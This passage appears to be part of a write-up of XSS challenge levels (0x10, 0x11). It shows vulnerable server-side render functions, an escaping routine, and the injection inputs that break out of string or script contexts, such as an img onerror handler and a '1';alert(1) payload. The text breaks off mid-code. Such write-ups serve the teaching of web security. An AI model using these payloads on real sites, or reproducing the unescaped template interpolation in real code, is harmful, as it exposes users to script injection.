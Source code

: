 ```
');alert('1
```

html:

```
<img src onerror="console.error('&#39;);alert(&#39;1')">
```

## 0x10

server code:

```
function render (input) {
  return `
<script>
  window.data = ${input}
</script>
  `
}
```

Analysis:

```
没意义，闭合输出；
```

input code:

```
'1';alert(1)
```

html:

```
<script>
  window.data = '1';alert(1)
</script>
```

## 0x11

server code:

```
// from alf.nu
function render (s) {
  function escapeJs (s) {
    return String(s)
            .replace(/\\/g, '\\\\')
            .replace(/'/g, '\\\'')
            .replace(/"/g, '\\"')
            .replace(/`/g, '\\`')
            .replace(/</g, '\\74')
            .replace(/>/g, '\\76')
            .replace(/\//g, '\\/')
            .replace(/\n/g, '\\n')
            .replace(/\r/g, '\\r')
            .replace(/\t/g, '\\t')
            .replace(/\f/g, '\\f')
            .replace(/\v/g, '\\v')
            // .replace(/\b/g, '\\b')
            .replace(/\0/g, '\\0')
  }
  s = escapeJs(s)
  return `
```